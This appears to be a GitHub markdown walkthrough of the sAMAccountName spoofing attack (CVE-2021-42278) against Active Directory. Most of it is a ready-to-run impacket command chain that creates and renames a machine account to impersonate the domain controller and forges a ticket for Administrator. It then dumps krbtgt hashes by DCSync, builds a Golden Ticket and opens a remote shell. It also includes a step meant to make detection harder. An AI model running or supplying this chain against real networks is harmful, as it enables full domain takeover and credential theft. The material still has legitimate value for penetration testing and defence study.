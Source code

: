 # sAMAccountName spoofing

## What is sAMAccountName spoofing ?

**sAMAccountName** is the unique ID for a user, it looks like this: NETBIOS\USERNAME.

Computer accounts should have a trailing \$ in their name (MYNETWORK\Computer\$).

However, until 2021 there was no validation to enforce this rule. This lack of validation led to **CVE-2021-42278, also known as sAMAccountName spoofing.**

By exploiting this, an attacker can rename a computer account so that its sAMAccountName matches that of a **Domain Controller (DC)**. Once this is done, Kerberos authentication can be tricked into treating the attacker-controlled computer as if it were the **DC itself.**

Why is this dangerous?
Because once you can impersonate the DC account, **you can escalate directly to domain admin privileges** and perform critical attacks like forging a Golden Ticket.

**But keep in mind that we need a user that has the right to create accounts in order to do the attack!**

## Example (with impacket tools and krbrelayx on UNIX-like systems):

#### sAMAccountName spoofing steps

These are the steps of the attack (I do imply that you already have the DC name and IP through enumeration and that you also have an account with the correct rights):

1. We need to create a computer account that will impersonate our target (DC):

```
python /usr/share/doc/python3-impacket/examples/addcomputer.py \
  -computer-name 'ControlledComputer$' \
  -computer-pass 'ComputerPassword' \
  -dc-host '<ip dc>' \
  -domain-netbios '<netbios>' \
  '<domain>/<user with right to create account>:<pass>'
```

We create a fake account with a simple password that will later become the fake DC.

2. We need to clear its SPNs. Why? When you create a new computer account (ControlledComputer\$), AD automatically assigns default SPNs (like HOST/ControlledComputer). If we don’t clear them before renaming the account to impersonate the DC, Kerberos could detect inconsistencies or conflicts with the real DC’s SPNs.

```
python krbrelayx/addspn.py \
  --clear \
  -t 'ControlledComputer$' \
  -d '<domain>' \
  -u '<AD>\<User>' \
  -p '<pass>' \
  '<ip>'
```

We still use the account that has the right to create accounts here.

3. Impersonate the DC by renaming our computer account to match the DC:

```
python /usr/share/doc/python3-impacket/examples/renameMachine.py \
  -current-name 'ControlledComputer$' \
  -new-name '<DC name without $>' \
  -dc-ip '<the ip of dc>' \
  '<domain>/<user>:<pass>'
```

Same user as usual.

4. Request a TGT.

First of all, don’t forget that working with Kerberos means that you need to be on the same local time!

```
timedatectl set-ntp off  
sudo ntpdate -u <ip of target>
```

This will set the same time as the target.

```
python /usr/share/doc/python3-impacket/examples/getTGT.py \
  -dc-ip '<ip of the dc>' \
  '<domain>/<Fake DC name set in step 3>:<the simple password set in step 1>'
```

5. Reset the computer name back (because we don’t need it anymore and it makes detection harder):

```
python /usr/share/doc/python3-impacket/examples/renameMachine.py \
  -current-name '<fake dc>' \           
  -new-name 'ControlledComputer$' \
  -dc-ip '<ip of the dc>' \
  '<domain>/<user>:<pass>'
```

We reuse the account with rights.

6. Use S4U2self to impersonate an account (example: Administrator):

```
KRB5CCNAME=<name of dc>.ccache 

python /usr/share/doc/python3-impacket/examples/getST.py \
  -self -impersonate 'Administrator' \
  -altservice 'cifs/<FAKE_DC.domain>' \
  -k -no-pass \
  -dc-ip '<ip of the dc>' \
  '<domain>/<FAKE_DC>'
```

Remember that this is still the Fake DC name set in step 3! (DC name without \$)

7. Perform DCSync with the forged ticket:

```
export KRB5CCNAME="<the ticket we obtained in step 6.ccache>"

python /usr/share/doc/python3-impacket/examples/secretsdump.py \
  -just-dc-user 'krbtgt' \
  -k -no-pass \
  -target-ip '<ip of the dc>' \
  -dc-ip '<ip of the dc>' \
  '<domain>/<user impersonated: Administrator for example>@<DC name without $.domain>'
```

We target krbtgt because this is the account hash we need in order to make a Golden Ticket.

If everything goes well, we might get some hashes:

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d392e902a67ba8e183135f229e385436:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d427015dbaa730ccfb5a58fb28e6dfeabde15c8e90caedbaa8ea84a0421bcc6e
krbtgt:aes128-cts-hmac-sha1-96:1e57ed1194e17a2a81be28d263f1c321
krbtgt:des-cbc-md5:fd40a2ec9dc76880
[*] Cleaning up... 
```
Perfect, we can now forge golden ticket !

#### Golden TIcket => SHELL.

We usually use AES256.

The only step remaining is to get the SID of the domain:

```
lookupsid.py \                                                   
  -k -no-pass \
  '<domain>/<user impersonated: Administrator for example>@<DC name without $.domain>' \
  -target-ip '<ip of the dc>'
```

Once we have it:

```
python /usr/share/doc/python3-impacket/examples/ticketer.py \
  -aesKey <AES256 hash> \
  -domain-sid '<SID>' \
  -domain '<domain>' \
  -user-id 500 \
  Administrator
```

User-id 500 if admin.

Then we import the ticket:

`export KRB5CCNAME=$(pwd)/<generated ticket.ccache>`

And use it! (example with a shell):

```
wmiexec.py -k -no-pass -dc-ip <ip of the dc> -target-ip <target of the shell> <domain>/<user impersonated: Administrator for example>@<DC NAME without $.local>
```
